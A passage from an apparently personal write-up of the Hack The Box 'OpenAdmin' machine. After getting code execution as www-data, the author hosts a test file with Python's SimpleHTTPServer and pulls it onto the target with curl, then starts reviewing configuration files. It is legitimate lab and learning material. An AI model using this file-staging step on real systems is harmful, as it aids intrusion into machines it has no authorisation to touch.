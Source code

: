 Cool -- so a rce as `www-data`. Need to priv-esc to a real user. I did a little testing to see what permissions I had, which was not many. But I did have access to `curl` and I was able to serve a test file to the remote server.

First create my file and serve it up using `SimpleHTTPServer`:
```console
root@discovery:~/htb/openadmin/files# cat test.txt 
da;sljkd;alskda;lskd;aslkd
root@discovery:~/htb/openadmin/files# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
10.10.14.75 - - [06/Jan/2020 15:03:35] code 404, message File not found
10.10.14.75 - - [06/Jan/2020 15:03:35] "GET /robots.txt HTTP/1.1" 404 -
10.10.14.75 - - [06/Jan/2020 15:03:35] "GET / HTTP/1.1" 200 -
10.10.14.75 - - [06/Jan/2020 15:03:35] code 404, message File not found
10.10.14.75 - - [06/Jan/2020 15:03:35] "GET /favicon.ico HTTP/1.1" 404 -
10.10.10.171 - - [06/Jan/2020 15:03:59] "GET /test.txt HTTP/1.1" 200 -
```
and retrieve it on the remote server:

```console
$ curl 10.10.14.75:8080/test.txt > test.txt
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
test.txt
winc
workspace_plugins  
$ cat test.txt
da;sljkd;alskda;lskd;aslkd
$ 
```

So I wasn't able to do much with `curl`, or maybe I got ahead of myself. However in just looking through the files I was getting blank pages when using my browser to look at them, which made me think they were empty:

![ona/local/config](./images/config_pw.png) 
